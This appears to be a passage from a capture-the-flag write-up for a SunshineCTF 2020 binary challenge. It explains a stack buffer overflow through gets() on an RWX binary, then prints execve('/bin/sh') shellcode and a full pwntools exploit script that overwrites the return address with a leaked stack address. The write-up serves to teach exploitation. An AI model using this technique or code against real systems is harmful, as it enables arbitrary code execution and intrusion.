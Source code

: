 RWX means the binary has segments that are readable writable and executable. Since there is no `win` function, we will be able to write our own, inject it via `gets`, and then have the program execute it. We can fill `local_78` with shellcode that will run `/bin/sh`, and then overwrite the return address of `vuln()` to return to the beginning of that shellcode.

Shellcode to inject:
```assembly
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\\x00'] */
    /* push b'sh\\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall

```

Exploit:
```python
#!/usr/bin/env python3

from pwn import *

context.binary = ELF('./chall_03')

if args.REMOTE:
    io = remote('chal.2020.sunshinectf.org', 30003)
else:
    io = process(context.binary.path)    
print(io.recvline())
io.sendline('throwaway')
response = str(io.recvline()) # 'b"I'll make it: 0x000xyz\\n"'
print(response)
stack_address = re.search("0x[0-9a-f]+", response).group()

payload = asm(shellcraft.sh())
buffer = 'A' * (0x78 - len(payload))
exploit = flat(payload, buffer, p64(int(stack_address, 16)))

print("Sending: ", exploit)
io.sendline(exploit)

io.interactive()
```
